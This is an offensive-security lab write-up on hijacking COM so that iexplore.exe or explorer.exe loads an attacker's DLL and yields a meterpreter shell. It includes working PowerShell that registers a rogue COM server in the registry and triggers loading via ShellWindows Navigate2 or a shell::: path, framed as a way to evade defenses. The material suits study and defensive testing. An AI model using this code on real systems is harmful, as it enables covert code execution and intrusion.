 # Forcing Iexplore.exe to Load a Malicious DLL via COM Abuse

It's possible to force iexplore.exe \(or explorer.exe\) to load a malicious DLL and execute it - a technique which could be used when attempting to evade certain defenses.

The technique works as follows:

* An attacker creates a malicious DLL that he wants iexplore.exe to load and execute - I used a meterpreter payload in this lab
* On a victim system, the attacker defines a new COM server by creating the required keys and values in the registry. The previously created malicious DLL will be set to handle the COM client calls. In our case, the DLL will only perform one action - it will execute the meterpreter shellcode upon load
* On a vitim system, the attacker uses an existing `ShellWindows` \(iexplore or explorer\) COM server `9BA05972-F6A8-11CF-A442-00A0C90A8F39`to call our malicious COM server by simply navigating to it
* Iexplore.exe loads the malicious DLL
* Attacker catches the meterpreter shell

This technique _requires_ iexplore.exe to be running on the target system :\)

See [https://labs.nettitude.com/blog/com-and-the-powerthief/](https://labs.nettitude.com/blog/com-and-the-powerthief/) by Rob Maslen for more details on why this technique works.

## Execution

Below is a powershell code that creates a new COM object with a randomly chosen CLSID `55555555-5555-5555-5555-555555555555` which registers our malicious DLL at `\\VBOXSVR\Experiments\evilm64.dll` to handle incoming calls from COM clients:

{% code title="attacker@victim" %}
```csharp
# Code borrowed from https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Invoke-PowerThIEf.ps1 by Rob Maslen
$CLSID = "55555555-5555-5555-5555-555555555555"
Remove-Item -Recurse -Force -Path "HKCU:\Software\Classes\CLSID\{$CLSID}" -ErrorAction SilentlyContinue

# path to the malicious DLL we want iexplore to load and execute
$payload = "\\VBOXSVR\Experiments\evilm64.dll"
New-Item -Path "HKCU:\Software\Classes\CLSID" -ErrorAction SilentlyContinue | Out-Null
New-Item -Path "HKCU:\Software\Classes\CLSID\{$CLSID}" | Out-Null
New-Item -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" | Out-Null
New-Item -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\ShellFolder" | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" -Name "(default)" -Value $Payload | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" -Name "ThreadingModel" -Value "Apartment" | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" -Name "LoadWithoutCOM" -Value "" | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\ShellFolder" -Name "HideOnDesktop" -Value "" | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\ShellFolder" -Name "Attributes" -Value 0xf090013d -PropertyType DWORD | Out-Null
```
{% endcode %}

Once run, we can see that the new COM object got created successfully in the registry:

![](../../.gitbook/assets/annotation-2019-06-15-165723.png)

We are now ready to execute the payload with the below powershell. What happens here is:

* We're requesting a new instance of the `ShellWindows` `(9BA05972-F6A8-11CF-A442-00A0C90A8F39)` COM object, which actually applies to both explorer.exe and iexplore.exe, meaning with a handle to that object, we can interface with them using their exposed methods
* Specifically, we are interested in getting an instance of a COM object for iexplore.exe, because its COM server has a method `Navigate2(...)` exposed. The `Navigate2` allows us to programatically instruct the iexplore.exe to navigate to a URL. 
* We are asking iexplore to navigate to our newly created malicious CLSID pointing to our DLL instead of a URL:

{% code title="attacker@victim" %}
```csharp
# force iexplore to load the malicious DLL and execute it
$shellWinGuid = [System.Guid]::Parse("{9BA05972-F6A8-11CF-A442-00A0C90A8F39}")
$typeShwin = [System.Type]::GetTypeFromCLSID($shellWinGuid)
$shwin = [System.Activator]::CreateInstance($typeShwin) | ? {$_.fullname -match 'iexplore'} | Select-Object -First 1
$shWin.Navigate2("shell:::{$CLSID}", 2048)
```
{% endcode %}

Code execution in action, resulting in a meterpreter session:

![](../../.gitbook/assets/iecomhijacking.gif)

## Shell:::

As a fun bonus, it's possible to call our malicious COM object via explorer by navigating to  
`shell:::{55555555-5555-5555-5555-555555555555}` which forces the explorer.exe to load our malicious DLL:

![](../../.gitbook/assets/annotation-2019-06-15-174905.png)

...and results in a meterpreter shell:

![](../../.gitbook/assets/explorerhijack.gif)

## References

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/com/component-object-model--com--portal" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/aa752094\(v%3Dvs.85\)" %}

{% embed url="https://labs.nettitude.com/blog/com-and-the-powerthief/" %}



